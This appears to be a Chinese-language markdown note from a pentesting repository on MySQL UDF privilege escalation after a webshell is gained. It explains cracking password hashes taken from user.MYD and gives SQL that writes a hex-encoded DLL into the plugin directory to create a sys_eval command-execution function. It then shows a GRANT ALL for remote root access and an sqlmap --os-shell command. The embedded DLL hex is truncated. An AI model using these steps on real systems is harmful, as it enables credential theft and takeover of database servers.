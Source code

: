 # 数据库 udf提权
## 获取数据库密码方式
我们在拿到webshell的情况下，针对mysql数据库，我们可以找寻mysql的安装目录，下面的`user.MYD`文件，用记事本打开。可以找到数据库的密码，通过cmd5进行界面。如`MySQL5.7.26/data/mysql/user.MYD`

![image](https://user-images.githubusercontent.com/71583369/146636472-29f7e7a6-7186-4c08-aad5-29c7718c9baa.png)

- 文件中的密码为MD5加密，可通过解密平台解密
![image](https://user-images.githubusercontent.com/71583369/146636526-3b2e303a-a85b-40a8-a082-e41bf6bf0ffb.png)

有时密码的字符串是分开，需要进行前后拼接，才能成功解密。当密码复杂度高时解不开密码，只能通过数据库配置文件来解。
- 通过直接在数据库中查询来过去密码

## udf提权操作
```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G://phpstudy_pro//Extensions//MySQL5.7.26//lib//plugin//udf.dll";(此文件路径需根据具体情况进行修改)
create function sys_eval returns string soname 'udf.dll';
```
## 当以上的方法无法成功时，可以开启mysql的外连功能
```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'rootpassword';
rootpassword为对应的密码
```
随后通过sqlmap进行提权，命令如下：
```
sqlmap.py -d mysql://root:root@x.x.x.x:3306/mysql --os-shell
```
有时sqlmap使用时会报错，提示缺少模块，需要安装pymysql
`python pip install pymysql`
参考链接：
- https://blog.csdn.net/qq_42636435/article/details/106852716
- https://blog.csdn.net/weixin_30569033/article/details/97225345
